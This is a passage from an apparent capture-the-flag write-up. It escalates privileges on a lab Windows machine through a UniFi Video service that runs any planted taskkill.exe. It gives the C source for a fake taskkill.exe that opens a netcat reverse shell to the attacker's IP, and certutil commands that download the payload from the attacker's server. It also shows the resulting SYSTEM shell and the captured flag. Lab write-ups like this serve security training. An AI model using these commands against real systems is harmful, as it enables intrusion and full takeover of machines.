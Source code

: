 ```shell
the application directory by default at all.

By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.
```

So we can create a `taskkill.exe` and put it in the folder, restart the service, and the malicious exe will be executed.

```shell
$ cat taskkill.c                  
#include "stdlib.h"

int main()
{
    system("C:\\programdata\\unifi-video\\nc.exe -e cmd.exe 10.10.14.17 4444");
}
```

```shell
$ x86_64-w64-mingw32-gcc taskkill.c -o taskkill.exe
```

Upload `nc.exe` and `taskkill.exe`:

```shell
*Evil-WinRM* PS C:\programdata\unifi-video> certutil -f -split -urlcache http://10.10.14.17:8000/taskkill.exe
*Evil-WinRM* PS C:\programdata\unifi-video> certutil -f -split -urlcache http://10.10.14.17:8000/nc.exe
```

Start and stop the service and start the listener:

```shell
*Evil-WinRM* PS C:\programdata\unifi-video> stop-service -name "Ubiquiti Unifi Video"
Warning: Waiting for service 'Ubiquiti Unifi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti Unifi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti Unifi Video (UniFiVideoService)' to stop...
*Evil-WinRM* PS C:\programdata\unifi-video> start-service -name "Ubiquiti Unifi Video"
```

```shell
$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.104] 49819
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
5c5d6c15aad3a052570839b7d8b45473
```
